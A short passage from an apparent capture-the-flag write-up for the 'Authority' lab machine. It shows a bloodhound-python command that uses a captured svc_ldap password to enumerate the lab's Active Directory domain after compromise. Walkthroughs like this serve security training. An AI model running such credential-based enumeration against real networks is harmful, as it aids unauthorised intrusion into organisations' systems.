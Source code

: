 Now that we compromised svc_ldap let's use the compromised account to enumerate the domain.

```sh
bloodhound-python -c all \
	-d authority.htb \
	-u 'svc_ldap@authority.htb' \
	-p 'lDaP_1n_th3_cle4r!' \
	-ns 10.129.229.56 \
	--zip
```

![](images/winrm.png)

